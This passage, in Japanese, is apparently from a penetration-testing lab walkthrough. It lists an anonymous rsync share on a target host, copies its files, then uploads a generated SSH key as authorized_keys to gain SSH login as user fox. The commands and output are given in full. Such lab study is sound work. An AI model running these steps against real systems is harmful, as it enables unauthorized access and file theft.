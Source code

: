 2.手動再同期
共有フォルダを一覧表示できる。  
今回は先ほどの手順で列挙できたfoxディレクトリを同期する。  
資格情報が不要な場合:  
```
┌──(kali㉿kali)-[~/pg/boxes/Fail]
└─$ rsync -av --list-only rsync://192.168.227.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 23:21:59 .
lrwxrwxrwx              9 2020/12/04 05:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 13:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 13:12:36 .bashrc
-rw-r--r--            807 2019/04/18 13:12:36 .profile

sent 20 bytes  received 136 bytes  62.40 bytes/sec
total size is 4,562  speedup is 29.24
```

資格情報が必要な場合:
```
rsync -av --list-only rsync://username@192.168.227.126/fox
```

3.列挙したファイルすべてをローカルマシンへコピー
これにより全てのファイルがターゲットマシン上のディレクトリからローカルマシン上のディレクトリに再帰的に転送される。  

資格情報が不要な場合:  
```
┌──(kali㉿kali)-[~/pg/boxes/Fail]
└─$ rsync -av rsync://192.168.227.126/fox ./fox
receiving incremental file list
created directory ./fox
./
.bash_history -> /dev/null
.bash_logout
.bashrc
.profile

sent 87 bytes  received 4,828 bytes  1,404.29 bytes/sec
total size is 4,562  speedup is 0.93
```

資格情報が必要な場合:  
```
rsync -av rsync://username@192.168.227.126/fox ./fox
```

4.rsyncを使用してpayloadをアップロード
ここではauthorized_keysを含めた.sshをアップロードする。
```
mkdir .ssh
cd .ssh
ssh-keygen -t rsa -f id_rsa 
cat id_rsa.pub >> authorized_keys
chmod 600 authorized_keys
cd ../
rsync -av .ssh rsync://192.168.227.126/fox/
```
```
ssh -i id_rsa fox@192.168.227.126
```
